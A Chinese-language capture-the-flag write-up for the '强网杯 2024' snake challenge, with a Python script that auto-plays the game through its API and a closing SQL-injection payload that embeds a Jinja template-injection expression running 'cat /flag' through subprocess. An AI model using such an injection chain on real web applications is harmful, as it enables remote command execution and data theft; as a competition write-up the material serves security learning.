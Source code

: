 # snake题解（_当时没做出来_）
## 考点
* 玩游戏拿接口
* sql+ssti注入
* 参考：[星盟-强网杯2024 Writeup
](https://blog.xmcve.com/2024/11/04/%E5%BC%BA%E7%BD%91%E6%9D%AF2024-Writeup/#title-10)
## 分析
自己在做的时候确实注意到了要达到多少分才算通过（拿到flag或者拿到其他的信息），由于蛇移动的速度过快，当时通过burp抓包一步步修改移动方向，但是这样做太折磨了，做到这里就终止了。

***
(下面是题解思路)

写脚本自动运行贪吃蛇程序，然后拿到接口进行sql+ssti注入

## 解答
```python
import requests
import time
from collections import deque

# 游戏的 API 地址
url = "http://eci-2zeikei7c3gb3wwe1lu2.cloudeci1.ichunqiu.com:5000/move"
name = "http://eci-2zeikei7c3gb3wwe1lu2.cloudeci1.ichunqiu.com:5000/set_username"

# 初始化游戏状态
res = requests.post(name,{"username":"aaa"})
cookie = res.cookies
game_state = requests.post(url,cookies=cookie,json={"direction":"RIGHT"}).json()

# 定义方向
DIRECTIONS = {
    "UP": [0, -1],
    "DOWN": [0, 1],
    "LEFT": [-1, 0],
    "RIGHT": [1, 0]
}
WIDTH, HEIGHT = 20, 20


# 获取蛇的头部坐标
def get_snake_head(snake):
    return snake[0]


# 检查是否撞墙或咬到自己
def is_valid_move(snake, next_head):
    return (0 <= next_head[0] < WIDTH and
            0 <= next_head[1] < HEIGHT and
            next_head not in snake)


# BFS寻找最优路径
def find_path(snake, food):
    queue = deque([(get_snake_head(snake), [])])
    visited = set(tuple(segment) for segment in snake)

    while queue:
        current, path = queue.popleft()
        if list(current) == food:
            return path

        for direction in DIRECTIONS.values():
            next_head = (current[0] + direction[0], current[1] + direction[1])
            if is_valid_move(snake, next_head) and next_head not in visited:
                visited.add(next_head)
                queue.append((next_head, path + [next_head]))

    return []


# 移动蛇
def move_snake(direction):
    response = requests.post(url,cookies=cookie, json={"direction": direction})
    return response.json()


# 自动化贪吃蛇
def auto_snake(game_state):
    snake = game_state["snake"]
    food = game_state["food"]

    # 找到从蛇头到食物的路径
    path = find_path(snake, food)

    if path:
        next_head = path[0]
        head = get_snake_head(snake)

        # 确定移动方向
        if next_head[0] < head[0]:
            move_direction = "LEFT"
        elif next_head[0] > head[0]:
            move_direction = "RIGHT"
        elif next_head[1] < head[1]:
            move_direction = "UP"
        else:
            move_direction = "DOWN"

        return move_snake(move_direction)
    else:
        print("No valid path to food!")
        return game_state


# 示例执行
if __name__ == "__main__":
    while game_state["status"] == "ok":
        game_state = auto_snake(game_state)
        print(game_state)
print(game_state)
```
![alt text](jpgs/image1.png)

然后存在sql注入，直接注入payload：
> /snake_win?username=1'union select 1,2,"{{lipsum.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('subprocess').check_output('cat /flag', shell=True)}}
')}}"--+